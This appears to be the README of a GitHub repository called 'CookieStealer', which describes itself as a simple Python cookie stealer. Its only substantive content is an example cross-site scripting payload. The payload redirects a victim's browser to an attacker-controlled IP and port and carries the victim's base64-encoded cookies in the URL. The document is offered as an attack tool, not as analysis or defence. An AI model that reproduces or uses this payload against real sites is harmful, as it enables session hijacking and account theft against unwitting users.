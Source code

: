 # CookieStealer
A simple cookie stealer coded in python

## Example payload:
<script>document.location='http://[your ip]:2121/'+encodeURIComponent(btoa(document.cookie));</script>
